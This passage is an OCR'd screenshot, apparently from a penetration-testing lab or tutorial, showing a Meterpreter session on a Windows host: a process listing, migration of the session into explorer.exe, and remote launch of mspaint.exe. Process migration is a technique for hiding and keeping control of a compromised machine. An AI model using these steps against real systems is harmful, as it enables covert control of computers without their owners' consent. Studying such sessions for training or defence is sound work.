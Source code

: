     824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1504  640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

    meterpreter > migrate 1604
    [*] Migrating from 984 to 1604...
    [*] Migration completed successfully.
    meterpreter > execute -f mspaint.exe
    Process 1752 created.
